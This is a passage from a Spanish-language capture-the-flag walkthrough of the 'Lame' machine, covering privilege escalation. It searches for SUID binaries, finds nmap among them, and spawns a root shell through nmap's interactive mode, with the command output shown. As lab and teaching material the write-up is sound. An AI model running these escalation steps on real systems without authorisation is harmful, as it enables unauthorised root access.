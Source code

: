 Ya tenemos un `consola` completamente `interactiva`

```
daemon@lame:/tmp$ whoami
daemon
```
## Privilege Escalation

Buscamos binarios `SUID` y encontramos `nmap`

```
daemon@lame:/tmp$ find / -perm -4000 2>/dev/null
/bin/umount
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/ping6
/sbin/mount.nfs
/lib/dhcp3-client/call-dhclient-script
/usr/bin/sudoedit
/usr/bin/X
/usr/bin/netkit-rsh
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/sudo
/usr/bin/netkit-rlogin
/usr/bin/arping
/usr/bin/at
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

Mediante `nmap` en modo `interactivo` podemos `spawnear` una `shell` como usuario `root`

```
daemon@lame:/tmp$ nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
sh-3.2# whoami
root
```
